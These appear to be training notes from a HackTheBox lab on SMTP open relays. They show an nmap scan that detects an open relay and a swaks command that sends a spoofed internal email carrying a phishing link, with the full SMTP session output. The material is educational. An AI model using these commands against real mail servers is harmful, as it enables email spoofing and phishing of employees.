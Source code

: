 An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.
#### Open Relay
From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.

```bash
Yashfren@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, we can use any mail client to connect to the mail server and send our email.

```bash
Yashfren@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```
# Tags
> #Exploitation #Service-Exploitation #SMTP 